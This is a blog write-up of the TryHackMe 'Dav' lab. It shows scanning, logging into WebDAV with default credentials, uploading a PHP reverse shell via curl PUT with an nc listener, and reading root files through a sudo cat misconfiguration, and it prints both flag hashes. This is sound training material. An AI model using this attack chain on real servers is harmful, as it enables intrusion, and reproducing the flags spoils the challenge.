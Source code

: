 ```yaml
---
title: "Dav - TryHackMe"
author: Ludovic COULON
date: 2020-05-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Dav room on TryHackMe"
---
```


[TryHackMe | Dav](https://tryhackme.com/room/bsidesgtdav)

Read user.txt and root.txt

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.33.240
```

```bash
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
➜  TryHackMe gobuster dir -u http://10.10.33.240 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.33.240
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/30 16:54:40 Starting gobuster
===============================================================
/webdav (Status: 401)
```

```bash
# There is a creds to acces the page just google webdav default creds"
http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
user: wampp
pass: xampp
```

<div className="Image__Medium">
  <img src="https://imgur.com/BKDICjY.png" alt="blog_image" />
</div>

```bash
# Don't try to crack the hash its a rabit hole (sad life :'c)
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

Let's get a reverse shell on the server ! 🤑

[Learning Pentesting with Metasploitable3: Exploiting WebDAV](https://resources.infosecinstitute.com/learning-pentesting-metasploitable3-exploiting-webdav-2/#gref)

```bash
➜  TryHackMe curl –v --user wampp:xampp http://10.10.33.240/webdav/verify.txt -X PUT
curl: (3) Failed to convert –v to ACE; string contains a disallowed character

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/verify.txt has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.33.240 Port 80</address>
</body></html>
```

<div className="Image__Medium">
  <img src="https://imgur.com/xtdInMA.png" alt="blog_image" />
</div>

Nice, let's try with a php reverse shell shall we ? 😃

### #1 user.txt

```bash
➜  TryHackMe curl --user wampp:xampp http://10.10.33.240/webdav/reverse-shell.php --upload-file reverse-shell.php -X PUT
➜  TryHackMe nc -lvnp 4444
```

<div className="Image__Medium">
  <img src="https://imgur.com/iIe25rq.png" alt="blog_image" />
</div>

```bash
$ cd /home
$ ls
merlin
wampp
$ cd merlin
$ ls
user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

### #2 root.txt

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
$ sudo cat /root/
cat: /root/: Is a directory
$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/GAKz5CS.png" alt="TryhackMeProfile" />
  </a>
</center>
